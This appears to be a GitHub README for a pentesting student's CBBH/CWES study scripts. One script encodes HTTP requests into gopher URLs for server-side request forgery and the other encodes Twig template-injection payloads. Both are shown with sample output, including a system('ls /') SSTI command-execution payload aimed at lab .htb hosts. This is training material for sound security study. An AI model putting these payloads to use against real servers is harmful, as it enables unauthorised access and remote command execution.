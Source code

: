 # CBBH-CWES-Artifact
Some python script I made during the course of preparing for CBBH/CWES

The `gopher-manual.py` is for correctly encode the request to gopher URL scheme to send arbitrary bytes to a TCP socket `(it will automatically encode the URL twice)`.

The `SSTI-payload-encode.py` is for correctly encode the `Twig` payload to make it acceptable to a TCP socket.

Usage:

### 1. Gopeher-manual.py

You may need to manually swap the request and the host (u1) inside the `gopher-manual.py`

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopherus-manual.py
gopher://thatserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20thatserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//thatserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520thatserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```

You may need to manually swap the request inside the `gopher-manual-1.1.py` -> This is the upgraded version of the previous one.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 gopher-manual-1.1.py
gopher://someserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20someserver.htb%0D%0AContent-Length:%2017%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Apassword%3Dadmin123
gopher%3A//someserver.htb%3A80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3A%2520someserver.htb%250D%250AContent-Length%3A%252017%250D%250AContent-Type%3A%2520application/x-www-form-urlencoded%250D%250A%250D%250Apassword%253Dadmin123
```


### 2. SSTI-payload-encode.py

You can either `python3 SSTI-payload-encode.py "PAYLOAD"` or `python3 SSTI-payload-encode.py "PAYLOAD" --double` for double encoding.

```shell
┌──(kali㉿kali)-[~]
└─$ python3 SSTI-payload-encode.py "{{ ['ls /'] | filter('system') }}" 
{{%2b['ls%2b/']%2b%7c%2bfilter('system')%2b}}
```
